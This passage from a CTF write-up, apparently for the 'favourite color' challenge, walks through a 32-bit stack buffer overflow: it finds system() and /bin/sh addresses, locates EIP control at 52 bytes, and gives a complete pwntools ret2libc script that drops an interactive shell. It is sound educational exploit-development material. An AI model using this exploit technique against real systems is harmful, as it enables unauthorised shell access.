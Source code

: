 
We now have a address of system function and an address where we can find `/bin/sh`.

## Testing for overflow

We can send some characters to it and see where it breaks.

![registers](/assets/img/ctflearn/favourite-color-registers.png)

We start overflowing the EIP at 52 bytes.

Now just sending the 52 bytes and then calling the system function with the `/bin/sh` string's address as an argument should drop a shell.

## Exploit

```python
from pwn import *

p = process("/home/color/color")
binsh = p32(0x8048799)
system = p32(0x8048450)
payload = b"\x41"*52
p.recv()
p.sendline(payload + system + p32(0xdeadbeef) + binsh)
p.interactive()
```

![shell](/assets/img/ctflearn/favourite-color-shell.png)
